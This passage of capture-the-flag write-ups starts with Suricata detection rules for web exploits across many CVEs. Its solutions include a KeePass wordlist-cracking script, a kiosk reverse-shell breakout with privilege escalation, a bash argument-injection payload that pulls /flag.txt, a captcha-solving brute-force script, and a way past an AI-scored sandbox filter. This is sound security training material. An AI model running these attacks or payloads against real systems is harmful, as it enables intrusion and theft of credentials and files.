alert http any any -> any any (msg:"CVE-2017-12794: Django Debug Page - Cross-Site Scripting"; content:"GET"; http_method; content:"/create_user/"; http_uri; content:"username="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22017002; rev:1;)
alert http any any -> any any (msg:"CVE-2017-7391: Magmi 0.7.22 - Cross-Site Scripting"; content:"GET"; http_method; content:"/magmi/web/ajax_gettime.php"; http_uri; content:"prefix="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22017003; rev:1;)
alert http any any -> any any (msg:"CVE-2008-2398: AppServ Open Project <=2.5.10 - Cross-Site Scripting"; content:"GET"; http_method; content:"index.php?appservlang="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22008003; rev:1;)
alert http any any -> any any (msg:"CVE-2008-5587: phpPgAdmin <=4.2.1 - Local File Inclusion"; content:"GET"; http_method; content:"/phpPgAdmin/index.php"; http_uri; content:"_language"; http_uri; content:"../"; nocase; http_uri; classtype:web-application-attack; sid:22008006; rev:1;)
alert http any any -> any any (msg:"CVE-2008-6465: Parallels H-Sphere 3.0.0 P9/3.1 P1 - Cross-Site Scripting"; content:"GET"; http_method; content:"/webshell4/login.php"; http_uri; content:"login="; http_uri; content:"|22| onfocus"; http_uri; classtype:web-application-attack; sid:22008008; rev:1;)
alert http any any -> any any (msg:"CVE-2008-6982:  Devalcms 1.4a - Cross-Site Scripting"; content:"GET"; http_method; content:"/index.php"; http_uri; content:"currentpath="; http_uri; content:"%3sscript"; nocase; http_uri; classtype:web-application-attack; sid:22008009; rev:1;)
alert http any any -> any any (msg:"CNVD-2018-13393: Metinfo - Local File Inclusion"; content:"GET"; http_method; content:"/include/thumb.php"; http_uri; content:"dir="; http_uri; content:"http"; http_uri; classtype:web-application-attack; sid:12018001; rev:1;)
alert http any any -> any any (msg:"CNVD-2019-19299: Zhiyuan A8 - Remote Code Execution"; content:"POST"; http_method; content:"/seeyon/htmlofficeservlet"; http_uri; content:"DBSTEP V3."; nocase; http_client_body; classtype:web-application-attack; sid:12019001; rev:1;)
alert http any any -> any any (msg:"CNVD-2019-32204: Fanwei e-cology <=9.0 - Remote Code Execution"; content:"POST"; http_method; content:"/bsh.servlet.BshServlet"; http_uri; content:"bsh.script="; nocase; http_client_body; content:"bsh.servlet.output="; nocase; http_client_body; classtype:web-application-attack; sid:12019002; rev:1;)
alert http any any -> any any (msg:"CNVD-2020-23735: Xxunchi CMS - Local File Inclusion"; content:"GET"; http_method; content:"/backup/auto.php"; http_uri; content:"NzbwpQSdbY06Dngnoteo2wdgiekm7j4N"; http_uri; classtype:web-application-attack; sid:12020001; rev:1;)
alert http any any -> any any (msg:"CNVD-2020-26585: Showdoc < 2.8.6 - File Uploads"; content:"POST"; http_method; content:"/index.php?s=/home/page/uploadImg"; http_uri; classtype:web-application-attack; sid:12020002; rev:1;)
alert http any any -> any any (msg:"CNVD-2020-46552: Sangfor EDR - Remote Code Execution"; content:"GET"; http_method; content:"/tool/log/c.php"; http_uri; content:"strip_slashes="; http_uri; classtype:web-application-attack; sid:12020003; rev:1;)
alert http any any -> any any (msg:"CNVD-2020-62422: Seeyon - Local File Inclusion"; content:"GET"; http_method; content:"/seeyon/webmail.do"; http_uri; content:"method=doDownloadAtt&filename="; http_uri; content:"filePath="; http_uri; classtype:web-application-attack; sid:12020004; rev:1;)
alert http any any -> any any (msg:"CNVD-2020-68596: WeiPHP 5.0 - Path Traversal"; content:"POST"; http_method; content:"/public/index.php/material/Material/_download_imgage"; http_uri; content:"media_id=1&picUrl="; http_uri; content:"filePath="; http_uri; classtype:web-application-attack; sid:12020005; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-01931: Ruoyi Management System - Local File Inclusion"; content:"GET"; http_method; content:"/common/download/resource"; http_uri; content:"resource=/profile"; http_uri; classtype:web-application-attack; sid:12021001; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-09650: Ruijie Networks-EWEB Network Management System - Remote Code Execution"; content:"POST"; http_method; content:"/guest_auth/guestIsUp.php"; http_uri; content:"mac="; http_client_body; content:"ip="; http_client_body; classtype:web-application-attack; sid:12021002; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-10543: EEA - Information Disclosure"; content:"GET"; http_method; content:"/authenticationserverservlet"; http_uri; classtype:web-application-attack; sid:12021003; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-14536: Ruijie RG-UAC Unified Internet Behavior Management Audit System - Information Disclosure"; content:"GET"; http_method; content:"/get_dkey.php"; http_uri; content:"user=admin"; http_uri; classtype:web-application-attack; sid:12021004; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-15822: ShopXO Download File Read"; content:"GET"; http_method; content:"/public/index.php"; http_uri; content:"/index/qrcode/download/url/"; http_uri; classtype:web-application-attack; sid:12021005; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-15824: EmpireCMS - DOM Cross Site-Scripting"; content:"GET"; http_method; content:"/e/ViewImg/index.html"; http_uri; content:"url="; http_uri; content:"javascript:"; nocase; http_uri; classtype:web-application-attack; sid:12021006; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-26422: eYouMail - Remote Code Execution"; content:"POST"; http_method; content:"/webadm/?q=moni_detail.do&action=gragh"; http_uri; content:"type='|7C|"; http_client_body; classtype:web-application-attack; sid:12021007; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-28277: Landray-OA - Local File Inclusion"; content:"POST"; http_method; content:"/sys/ui/extend/varkind/custom.jsp"; http_uri; content:"var="; http_client_body; content:"file|3A|///"; http_client_body; classtype:web-application-attack; sid:12021008; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-30167: UFIDA NC BeanShell - Remote Command Execution"; content:"POST"; http_method; content:"/servlet/~ic/bsh.servlet.BshServlet"; http_uri; content:"bsh.script=exec"; http_client_body; classtype:web-application-attack; sid:12021009; rev:1;)
alert http any any -> any any (msg:"CNVD-2021-49104: Pan Micro E-office - File Uploads"; content:"POST"; http_method; content:"/general/index/UploadFile.php"; http_uri; content:"uploadPicture&uploadType=eoffice_logo&userId="; http_uri; classtype:web-application-attack; sid:12021010; rev:1;)
alert http any any -> any any (msg:"CNVD-2022-42853: ZenTao CMS - SQL Injection"; content:"/zentao/user-login.html"; http_uri; content:"account="; nocase; http_client_body; content:"updatexml"; nocase; http_client_body; classtype:web-application-attack; sid:12022001; rev:1;)
alert http any any -> any any (msg:"ExacqVision Default Login"; content:"POST"; http_method; content:"/service.web"; http_uri; content:"action=login"; http_client_body; content:"u=admin"; http_client_body; content:"p=admin256"; http_client_body; classtype:default-login-attempt; sid:30000001; rev:1;)
alert http any any -> any any (msg:"Oracle Siebel Loyalty 8.1 - Cross-Site Scripting"; content:"/loyalty_enu/start.swe"; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:60000001; rev:1;)
alert http any any -> any any (msg:"Detect SQLMap"; content:"sqlmap/"; nocase; http_user_agent; classtype:web-application-activity; sid:50000001; rev:1;)
alert http any any -> any 7001 (msg:"Exploit CVE-2021-2109 on Oracle Weblogic Server"; flow:to_server,established; content:"/console/consolejndi.portal"; startswith; http_uri; content:"com.bea.console.handles.JndiBindingHandle"; content:"AdminServer"; distance:0; reference:cve,CVE-2021-2109; classtype:web-application-attack; sid:20212109; rev:1;)
alert http any any -> any 7001 (msg:"Exploit CVE-2020-2109 (chains with CVE-2020-14750) Oracle Weblogic Server"; flow:to_server,established; content:"/console/"; startswith; http_uri; pcre:"/\/console\/(css|images)\//"; content:"2e"; nocase; distance:1; http_raw_uri; content:"consolejndi.portal"; distance:1; http_uri; reference:cve,CVE-2021-2109; classtype:web-application-attack; sid:20212109; rev:1;)
alert http any any -> any any (msg:"Exploit CVE-2020-8209 on XenMobile"; flow:to_server,established; content:"/jsp/help-sb-download.jsp"; startswith; http_uri; reference:cve,CVE-2020-8209; classtype:web-application-attack; sid:20202255; rev:1;)
alert http any any -> any 8000 (msg:"Exploit CVE-2020-16846 on SaltStack Salt"; flow:established,to_server; content:"POST"; http_method; content:"/run"; startswith; http_uri; content:"client=ssh"; http_client_body; content:"ssh_priv="; http_client_body; content:"%20"; distance:0; http_client_body; reference:cve,CVE-2020-16846; classtype:web-application-attack; sid:202016846; rev:1;)
alert http any any -> any 7001 (msg:"Exploit CVE-2020-14750 on Oracle Weblogic Server"; flow:established,to_server; content:"/console/"; startswith; http_uri; pcre:"/^(css|images)\//UR"; content:"2e"; nocase; distance:1; http_raw_uri; content:"console.portal"; distance:1; http_uri; reference:cve,CVE-2020-14750; reference:cve,CVE-2020-14882; classtype:web-application-attack; sid:202014750; rev:1;)
alert http any any -> any any (msg:"Exploit CVE-2020-12146 on Silver Peak Unity Orchestrator"; flow:established,to_server; content:"POST"; http_method; content:"/gms/rest/debugFiles/delete"; startswith; http_uri; pcre:"/(localhost|127\.0\.0\.1)/W"; content:"../phantomGenImg.js"; http_client_body; reference:cve,CVE-2020-12145; reference:cve,CVE-2020-12146; classtype:web-application-attack; sid:20202233; rev:1;)
```

Well done! 

:+1: FLAG{l3ss_al3rts_m0r3_dr1nks}
<hr>

### Password panic
Description
We have been given a password vault on a USB taken from a crime scene and were asked to aid in data recovery. The suspect has expressed that he has forgotten the password, but he did say that wasn't long or complex. We don't believe he doesn't remember it, but we need the file decrypted anyway.

Unfortunately, the new format of this database is making recovery more difficult.

Flag format: FLAG{words_and_numbers}

When extracted, there was a panic.kdbx file in there.

This is a keepass encrypted file.

Going to this github - https://github.com/r3nt0n/keepass4brute and using the bash script

```
#!/bin/bash

# https://github.com/r3nt0n/keepass4brute
# Name: keepass4brute.sh
# Author: r3nt0n
# Version: 1.0 (25/11/2022)

version="1.1"
/bin/echo -e "keepass4brute $version by r3nt0n"
/bin/echo -e "https://github.com/r3nt0n/keepass4brute\n"


if [ $# -ne 2 ]
then
  /bin/echo "Usage $0 <kdbx-file> <wordlist>"
  exit 2
fi

dep="keepassxc-cli"
command -v $dep >/dev/null 2>&1 || { /bin/echo >&2 "Error: $dep not installed.  Aborting."; exit 1; }

n_total=$( wc -l < $2 )
n_tested=0

IFS=''
while read -r line; do
  n_tested=$((n_tested + 1))
  /bin/echo -ne "[+] Words tested: $n_tested/$n_total ($line)                                          \r"

  /bin/echo $line | keepassxc-cli open $1 &> /dev/null
  if [ $? -eq 0 ]
  then
    /bin/echo -ne "\n"
    /bin/echo "[*] Password found: $line"; exit 0;
  fi
done < $2

/bin/echo -ne "\n"
/bin/echo "[!] Wordlist exhausted, any match found"; exit 3;
```

and using the rockyou.txt password list as such
```
./solve.sh panic.kdbx /usr/share/wordlists/rockyou.txt
```

It cracked the password after a few minutes
```
keepass4brute 1.1 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 126/14344392 (princess1)
[*] Password found: princess1
```

From the command line you can then run keepassxc panic.kdbx and enter the password when the app opens (must install keepassxc first)

You can dump the database to an XML file then open that and find the password.

:+1: FLAG{thankx_f0r_the_crack}
<hr>

### POCDefender
Description - Building a backend for our informational website was perhaps a terrible idea..

We've received an anonymous vulnerability report with a nuclei template PoC. We don't really know much about network defences, but I've heard that iptables is pretty much installed on every linux system as a firewall.

Can you write us some iptable rules to block the exploitation of this vulnerability? Just drop any packets that seem suspicious.

The check server is on port 80, this is where you can put your rules for testing.. a dev instance of our website has also been provided on port 8080, so you can check out if your rules work.

Be sure not to impact normal functionality of the website! We don't want legitimate users to be blocked, of course.

The old town bank will be in your debt, and upon completion of the rules we will reward you graciously with FLAG{our-complementary-flag}

Solution:
Here is the ruleset to use
```
-A INPUT -p tcp --dport 80 -j ACCEPT
-A INPUT -p tcp --dport 8080 -m string --string ?lang=///etc///passwd --algo bm -j DROP
-A INPUT -p tcp --dport 8080 -m string --string ?lang=///etc///os-release --algo bm -j DROP
-A INPUT -p tcp --dport 8080 -m string --string ?lang=%2Fetc%2Fos-release --algo bm -j DROP
-A INPUT -p tcp --dport 8080 -m string --string ?lang=//app/en.php --algo bm -j DROP
-A INPUT -p tcp --dport 8080 -m string --string ?lang=../../../../..///app/en.php --algo bm -j DROP
-A INPUT -p tcp --dport 8080 -m string --string ?lang=..%2F/../../../../..///app/en.php --algo bm -j DROP
-A INPUT -p tcp --dport 8080 -m string --string ?a=b&b=c&lang=///etc///passwd?a=abc&lang=http://checkserver/exploit --algo bm -j DROP
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
```
All payloads blocked with no impact on site functionality! 

Here's your flag: 

:+1: FLAG{iptables-1s-sup3r-versatile}
<hr>

### Prison Break
Description - We need someone to pentest this prison kiosk before it goes live. We've disabled most functionality on the desktop, and planted a flag at /flag. Can you break out? Challenge IP: 192.168.88.100 The password is "prisoner" 
Flag format: FLAG{Example_Flag_Goes_here}
Note: To solve this challenge, VDI access is required.

Solution:
Connect to the kiosk using vncviewer 192.168.88.100:5901 and password 'prisoner'

Create a new launcher shortcut on the panel that'll start nc


Start a listener on Kali VDI
```
nc -nlvp 4444
```
Click the launcher in the Kiosk and establish a reverse shell.
For a fully interactive shell, enter:
```
python -c 'import pty;pty.spawn("/bin/bash")';
```
Checking for odd binaries reveals
```
/usr/sbin/elevate
```
which is owned by admin

Looking at the binary, there's an interesting function that indicates the security code is calculated based on the time the binary is run. To predict what it will be,
that function can be run as the following which is set for 10 seconds in the future:
```
printf "$(python3 -c 'import time; JAIL_CONSTANT = 0x4A41494C; MODULO = 1000000; local_c = 9; tVar1 = int(time.time()) + 10; print(((local_c + tVar1) * JAIL_CONSTANT) % MODULO)')"
```
then run
```
/usr/sbin/elevate /bin/bash
```
to set the UID to 1000 (admin)

Run the following to list all files writable by user admin
```
find / -user admin -perm /u=w 2>/dev/null
```
The main ones of interest are towards the bottom
```
/etc/ssh/sshd_config
/home/admin
/home/admin/.profile
/home/admin/.bashrc
/home/admin/.bash_history
/home/admin/.bash_logout
```
The key one in this case is sshd_config
Modify this in one line using
```
vi -c '%s/#Banner none/Banner \/flag/g' /etc/ssh/sshd_config -c 'wq!'
```
Once this is done, reboot
```
sudo reboot
```
and connect again via the vnc session then establish a shell again
```
python -c 'import pty;pty.spawn("/bin/bash")';
```
Then try ssh to localhost
```
ssh admin@localhost
```


:+1: FLAG{c0mputers_were_a_mistak3}
<hr>

### Rbac User api
Description - The pentest report for our user API prototype came back and it had red everywhere.

Apparently there's this thing called "Role-based access control" which involves not just having roles, but actually controlling access with them.

Our development team is clueless as to what to do. Please help us patch it to these specifications:

    unauthenticated users should not be able to see or do anything, instead, they should get an HTTP 401 response

    users with the "read-only" role should be able to see their own data, but not modify it. (return HTTP 403 on attempt)

    users with the "user" role can see or modify their own data (return 403 on attempt to read/write other people's data)

    users with the "admin" role can see or modify everyone else's data

We have provided the source code as is customary. Please provide us with the URL and admin credentials of the patched prototype so the pentesters can re-test it. Ensure that at least one user of each role exists and that there are no more than 10 users.

Flag format: FLAG{ExamPle-Flag-Here}
```
#!/usr/bin/env python3
from flask import Flask, request, jsonify, session, abort
import os
import sqlite3

app = Flask(__name__)

app.secret_key = "kahsdflasdhfasjdflkalsdjf8123"

db = sqlite3.connect("database.db", check_same_thread=False)
db.row_factory = sqlite3.Row
init_cursor = db.cursor()
init_cursor.execute("CREATE TABLE IF NOT EXISTS user (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT, role TEXT, description TEXT)")
# Clear all users from the 'user' table
init_cursor.execute("DELETE FROM user;")

# After initializing the database (before the route definitions)
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('1', 'a', 'password123', 'admin', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('2', 'b', 'password123', 'readonly', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('3', 'c', 'password123', 'user', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('4', 'd', 'password123', 'user', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('5', 'e', 'password123', 'readonly', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('6', 'f', 'password123', 'readonly', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('7', 'g', 'password123', 'readonly', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('8', 'h', 'password123', 'user', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('9', 'i', 'password123', 'admin', 'Test user'))
init_cursor.execute("INSERT INTO user (id, username, password, role, description) VALUES (?, ?, ?, ?, ?)", ('10', 'j', 'password123', 'admin', 'Test user'))
db.commit()

@app.route("/api/auth", methods=["POST"])
def auth():
    if not request.form.get('username') or not request.form.get('password'):
        return "Missing username or password", 401

    username, password = request.form['username'], request.form['password']
    cur = db.cursor()
    entry = cur.execute("SELECT * FROM user WHERE username = ? AND password = ?", (username, password)).fetchone()

    if entry:
        session['user_id'] = entry['id']
        return "Welcome!"
    else:
        return "Invalid credentials", 401

def get_user_by_id(user_id):
    cur = db.cursor()
    row = cur.execute("SELECT * FROM user WHERE id = ?", (user_id,)).fetchone()
    return row

def check_permission(user_id, target_user_id, role):
    if role == 'admin':
        return True
    elif role == 'user' and user_id == target_user_id:
        return True
    elif role == 'readonly':
        return True  # Allow admin to access readonly users
    else:
        return False

@app.route('/api/users/<int:userid>', methods=["GET"])
def get_user(userid):
    if 'user_id' not in session:
        abort(401)

    user_id = session['user_id']
    user = get_user_by_id(user_id)
    if not user:
        abort(401)

    role = user['role']

    # Check if admin or the requested user
    if role == 'admin' or user_id == userid:
        target_user = get_user_by_id(userid)
        if not target_user:
            abort(404)

        if check_permission(user_id, userid, target_user['role']):
            data = dict(target_user)
            del data['password']  # redact sensitive info
            return jsonify(data)
        else:
            abort(403)

    # If the user is 'readonly', they can only view their own data
    if role == 'readonly' and user_id != userid:
        abort(403)

    # For 'readonly' role viewing its own data
    if role == 'readonly' and user_id == userid:
        target_user = get_user_by_id(userid)
        if not target_user:
            abort(404)

        data = dict(target_user)
        del data['password']  # redact sensitive info
        return jsonify(data)

    abort(403)  # If not admin or the requested user

@app.route('/api/users/<int:userid>', methods=["POST"])
def mod_user(userid):
    if 'user_id' not in session:
        abort(401)

    user_id = session['user_id']
    user = get_user_by_id(user_id)
    if not user:
        abort(401)

    role = user['role']

    if role == 'user' and user_id != userid:
        abort(403)

    # Check if the role is 'readonly'
    if role == 'readonly':
        abort(403)  # 'readonly' role cannot modify any data

    cur = db.cursor()
    if 'description' in request.form:
        description = request.form['description']
        cur.execute("UPDATE user SET description = ? WHERE id = ?", (description, userid))
        print('description changed')
    if 'password' in request.form:
        password = request.form['password']
        cur.execute("UPDATE user SET password = ? WHERE id = ?", (password, userid))
        print('password changed')
    db.commit()
    return 'OK'

if __name__ == '__main__':
    if os.getenv("TERM_PROGRAM"):  # localhost debug
        app.run(host='0.0.0.0', port=5000, debug=True)
    app.run(host='0.0.0.0', port=5000)
```
:+1: FLAG{n1c3_api_security_m8}
<hr>

### robots only area
Description - We found an interesting API that doesn't seem to let humans in. Can you pretend to be a robot? 
Flag format: FLAG{3xAmpL3_FL4G_G0S3_H3r3}

Solution:
checked robots.txt which revealed the standard user agents were not allowed
```
User-agent: Mozilla*
Disallow: /

User-agent: *Chrome*
Disallow: /

User-agent: AlexaMediaPlayer/*
Allow: *
```
Modified the user-agent in burp suite to
```
AlexaMediaPlayer/10.1.4058.0 (Linux;Android 10.1.2) ExoPlayerLib/1.5.9,gzip(gfe),gzip(gfe)
```
This includes the required agent plus the system version minimum of version 10

:+1: FLAG{W3lc0m3 4gen7 4l3x4} - IT DIDN'T HAVE _ IN IT LIKE THE QUESTION IMPLIES
<hr>

### secretsbin
Description - I built my own temporary, encrypted notes service! I am pretty confident about my bash skills, but just in case, can you see if there are any bugs in it? 
It listens on port 1337. Just in case you get in, the flag is in /flag.txt Flag format:
FLAG{example_flag_format}

This is the given code. Note the use of unquoted variables which is dangerous in bash.

```
#!/bin/bash

# set -x

encrypt () {
        src=$1
        dest=$2
        pass=$3
        # echo "src dirname: $(dirname $src)"
        cd $(dirname $src)
        zip $dest.zip * -P $pass
}

decrypt () {
        file=$1
        pass=$2
        tempdir=$(mktemp -d)
        cd $tempdir
        unzip -P $pass $file
        cat *
}

cleanup () {
        # cleanup old notes
        # -cmin on some systems
        find ./notes/ -type f -mmin +10 -delete
}

echo "--------->secretsbin>*********"
echo "[1] new temporary note (removed after 10 minutes)"
echo "[2] read encrypted note"
echo -en "> "
read INPUT
if [[ $INPUT == "1" ]]
then
        cleanup
        echo "welcome to secretsbin! enter password to encrypt your note:"
        read PASSWORD
        echo "enter your note, end with EOF:"
        TEMPFILE=$(mktemp -d)/notes.txt
        while read line
        do
                if [[ $line != "EOF" ]]
                then
                        echo -n "> "
                        echo "$line" >> $TEMPFILE
                else
                        break
                fi
        done
        OUTFILE=$(head /dev/urandom|sum|cut -d ' ' -f1)
        encrypt "$TEMPFILE" "/notes/$OUTFILE" "$PASSWORD"
        echo "your note ID is $OUTFILE"
fi

if [[ $INPUT == "2" ]]
then
        cleanup
        echo "welcome to secretsbin! enter password to decrypt your note:"
        read PASSWORD
        echo "enter your note ID:"
        read NOTEID

        decrypt "/notes/$NOTEID.zip" $PASSWORD
fi
```
Solution:
When connecting to the server, it presents the following:
```
└─$ nc 10.107.0.4 1337
--------->secretsbin>*********
[1] new temporary note (removed after 10 minutes)
[2] read encrypted note
> 1
welcome to secretsbin! enter password to encrypt your note:
```
Made use of the vulnerable password variable used when setting the password and entered:
```
thisismypassword cat /flag.txt
```
This rendered the output:
```
thisismypassword cat /flag.txt
enter your note, end with EOF:
test
> EOF
        zip warning: name not matched: cat
  adding: notes.txt (stored 0%)
  adding: flag.txt (stored 0%)
your note ID is 24385
```
Note the addition of flag.txt

Reconnected to the server and selected option 2
```
└─$ nc 10.107.0.4 1337
--------->secretsbin>*********
[1] new temporary note (removed after 10 minutes)
[2] read encrypted note
> 2
welcome to secretsbin! enter password to decrypt your note:
my
enter your note ID:
24385
Archive:  /notes/24385.zip
 extracting: notes.txt               
 extracting: flag.txt                
FLAG{bash_is_a_tr4p}
test
```
You can see that flag.txt has also been printed.

:+1: FLAG{bash_is_a_tr4p}
<hr>

### Sneakerbot
Description - I recently started building my own LLM... I am not sure what I'm doing yet, but I managed to get some sort of next-token prediction algorithm working with only one word using some data from Wikipedia pages. I've heard all about security concerns on leaking training data, so for testing, I've hidden a flag in the training data to see if you can find it.

Flag Format: FLAG{your_example_flag_goes_here}

After checking out the site, there was no clear indication that a registration was successful as it would just return to the login screen.
It it failed however, an error message would appear "Recaptcha answer is wrong or missing"
This was good because all I had to do was ensure that the recaptcha was accurate.

For this, the following code rendered the flag in wireshark

```
import requests
import json
from bs4 import BeautifulSoup
import re

username = "admin"
passwords = []

# URLs for our requests
website_url = "http://10.107.0.6/signup.php"
signup_url = "http://10.107.0.6/signup.php"

# Load in the passwords for brute forcing
with open("passwords.txt", "r") as wordlist:
    lines = wordlist.readlines()
    for line in lines:
        passwords.append(line.strip())

# Operator mapping
operator_map = {
    "plus": "+",
    "minus": "-",
    "multiplied by": "*",
    "divided by": "/"
}

# Create a session object
session = requests.Session()

# Repeat the process for 100 times
for _ in range(100):
    access_granted = False
    count = 0

    while not access_granted and count < len(passwords):
        password = passwords[count]

        # Connect to the signup page
        print("[*] Connecting to signup page...")
        response = session.get(website_url)
        print("[+] Connected to signup page successfully.")

        # Parse the HTML and find the CAPTCHA question and CSRF token
        print("[*] Parsing HTML...")
        soup = BeautifulSoup(response.content, 'html.parser')
        print(soup)
        recaptcha_question_element = soup.find("p", text=re.compile(r"Recaptcha question:", re.IGNORECASE))
        csrf_token_input = soup.find("input", {"name": "csrftoken"})
        if recaptcha_question_element and csrf_token_input:
            question_text = recaptcha_question_element.text.split(":", 1)[1].strip()
            csrf_token = csrf_token_input.get("value")
            print("[+] CAPTCHA question found:", question_text)
            print("[+] CSRF token found:", csrf_token)
        else:
            print("[-] CAPTCHA question or CSRF token not found.")
            continue

        # Extract the math question
        math_question = re.search(r"What is (.+)\?", question_text).group(1)
        print("[+] Math question found:", math_question)

        # Extract the operator from the math question
        operator = None
        for op_text, op_symbol in operator_map.items():
            if op_text in math_question:
                operator = op_symbol
                break

        if operator is None:
            print("[-] Operator not found in the math question.")
            continue

        # Extract operands
        operands = re.findall(r"\d+", math_question)
        print("[+] Extracted operands:", operands)
        print("[+] Operator found:", operator)

        # Calculate the result of the math question
        operand1 = int(operands[0])
        operand2 = int(operands[1])
        if operator == '+':
            captcha_answer = operand1 + operand2
        elif operator == '-':
            captcha_answer = operand1 - operand2
        elif operator == '*':
            captcha_answer = operand1 * operand2
        elif operator == '/':
            captcha_answer = operand1 / operand2
        print("[+] Calculated captcha answer:", captcha_answer)

        # Build the POST data for our brute force attempt
        signup_data = {
            'username': username,
            'password': password,
            'recaptcha': captcha_answer,
            'csrftoken': csrf_token,
            'Confirm': "Submit"
        }
        print("[*] Attempting signup with credentials:", signup_data)

        # Submit our brute force attack
        response = session.post(signup_url, data=signup_data)

        # Check the HTTP response code
        if response.status_code == 200:
            print("[+] Registration successful for Username:", username)
            access_granted = True
        else:
            print("[-] Registration failed. HTTP status code:", response.status_code)
            count += 1
```
:+1: FLAG{unl34sh-the-b0ts}
<hr>

### sNGAV
Description
Our company is developing a next-generation, AI powered Anti Virus for script-based attacks.

That's right! You will never get pass our sNGAV. We know all about your hacking tricks and sandbox escape cheatsheets... But if you do happen to, we'll give you a flag.

We'll let you run any Python code you want if the AI doesn't think it's malware. Connect to port: 1337 and see how far you can get!

Flag format: FLAG{ExamPle_Fl4g_H3er}

Solution:
When connecting via nc, you're presented with a prompt to input 3 different pieces of python code
```
nc 10.107.0.4 1337
Welcome to the test sandbox for sNGAV!
You can enter up to 3 lines of python code that will go straight into exec()
[0]>>>
```
From here I used a small script to pull the goodscripts from the link in the script provided
I made them html instead to serve as webpages since you couldn't get to the pages locally (paywall)
```
import requests

# Function to fetch script statements from a URL and return as a list
def fetch_script_statements(url):
    response = requests.get(url)
    if response.status_code == 200:
        return response.text.splitlines()
    else:
        print(f"Failed to fetch script statements from {url}")
        return []

# Fetch script statements from the URLs
bad_scripts_url = "https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes"
good_scripts_url = "https://therenegadecoder.com/code/python-code-snippets-for-everyday-problems/"

bad_script_statements = fetch_script_statements(bad_scripts_url)
good_script_statements = fetch_script_statements(good_scripts_url)

# Write the fetched script statements to text files
with open("badscripts.html", "w") as f:
    for script_statement in bad_script_statements:
        f.write(script_statement + ";\n")

with open("goodscripts.html", "w") as f:
    for script_statement in good_script_statements:
        f.write(script_statement + ";\n")

```
served them using 
```
python3 -m http.server
```

Worked through a few different attempts until I found the combination that worked
```
nc 10.107.0.4 1337
Welcome to the test sandbox for sNGAV!
You can enter up to 3 lines of python code that will go straight into exec()
[0]>>> print("Today")
[1]>>> f = open("/flag.txt")
[2]>>> print(f.read())
score: [0.40625]
Today
FLAG{benign_m0del}
```
:+1: FLAG{benign_m0del}
<hr>

### spike (FIRST BLOOD)
Description - my cat pics website was very slow for a couple of minutes today, but it was fine the rest of the time. Can you figure out what happened in those few minutes? 
Flag Format: FLAG{Ex@mpl3_FL4G_H3r3}

Opened the log file in excel and used power query to extract just the numbers relevant from the *.jpg URI

Using this list, plugged it into Cyber Chef and worked some magic using:
Remove whitespace (spaces and line feeds)
Escape string
Find/Replace (find \ replace with space)
Find/Replace again (find r replace with space)
From Decimal (space delimeter)

Scroll to the bottom of the output and the following is presented
```
OUJP{q1mrwp-rw-cqn-w0rbn}
```
And this repeats itself

Chucked it back in Cyber Chef and tried ROT13 which didn't work.
Incremented by one until ROT17 returned the flag.

:+1: FLAG{h1ding-in-the-n0ise}
<hr>

### ssshecurity
Description - We are setting up a linux server at the edge of our network and we really want it to be as secure as possible.

Can you help?

The temporary credential to the SSH server assigned to you is helper:helper123

Do these things:

setup fail2ban
disable root authentication via password (make it key only)
setup port knocking sequence 3741, 2834, 9999 to open the SSH port
When you're done, click "check" on the check app on port 80. It will give you the flag if everything looks secure enough.

Flag Format: FLAG{Enter-Your-Flag-Her3}

Solution:

This provides some good insight on the way forward - [https://www.tecmint.com/port-knocking-to-secure-ssh/]
```
sudo apt update
sudo apt install knockd
```
```
[options]
    Interface = ens160

[openSSH]
    sequence    = 3741,2834,9999
    seq_timeout = 15
    command     = /sbin/iptables -A INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
    tcpflags    = syn

[closeSSH]
    sequence    = 9999,2834,3741
    seq_timeout = 15
    command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
    tcpflags    = syn
```
```
sudo systemctl enable knockd

sudo apt update
sudo apt install fail2ban

sudo systemctl enable fail2ban
sudo systemctl start fail2ban
```
```
sudo nano /etc/ssh/sshd_config
```
```
PermitRootLogin no
```
```
sudo systemctl restart ssh
```
Run the check and return the flag

FLAG{d0nt_l34v3_ssh_inshhecur3}
<hr>

### STIX and stones
Description

Automated IOC sharing and blocking are all the rage these days. Our SOC has recently entered into an agreement with a boutique threat intelligence company and we are looking to provide a private email inbox to receive STIX formatted attachments from them and block all IP addresses provided.

